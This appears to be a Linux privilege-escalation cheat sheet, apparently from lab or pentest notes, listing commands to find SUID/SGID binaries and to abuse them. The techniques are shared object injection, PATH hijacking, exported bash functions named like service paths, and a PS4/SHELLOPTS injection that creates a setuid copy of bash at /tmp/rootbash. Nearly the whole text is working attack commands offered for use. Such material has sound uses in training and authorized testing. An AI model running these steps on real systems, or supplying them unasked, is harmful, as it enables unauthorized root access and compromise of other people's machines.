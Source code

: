 Search for all SUID files in the system: `find / -perm -u=s -type f 2>/dev/null`
Search for all SUID/GUID files in the system: `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

### Shared object injection

1. Search for open/access calls and "no such file" errors in a program with SUID: `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
2. Create a directory for a shared object in our home directory that can't be found: `mkdir /home/user/.config`
3. Create a shared object that spawns a bash shell using [libcalc.c](https://github.com/canatella/libcalc/blob/master/libcalc.c): `gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`
4. Execute the SUID program

## Environment variables

1. Run strings to check for services running without specifying the full path: `strings /usr/local/bin/suid-env`
2. Create a program with this name that spawns a bash shell: `gcc -o service /home/user/tools/suid/service.c`
3. Prepend the location to the PATH variable: `PATH=.:$PATH /usr/local/bin/suid-env`
4. Execute the SUID program

### Abusing shell features

Method 1:

1. Check for service executable absolute path: `strings [SUID program path]`
2. Check that the version of bash is less than 4.2-048: `/bin/bash --version`
3. Create a function with the name of the service path: `function /usr/sbin/service { /bin/bash -p; }`
4. Export the function: `export -f /usr/sbin/service`
5. Execute the SUID program

Method 2 (Won't work for bash version 4.4 and above):

1. Run the SUID program with debugging enabled and the PS4 variable to create embedded command with SUID version of /bin/bash: `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' [SUID program path]`
2. Run the created executable: `/tmp/rootbash -p`



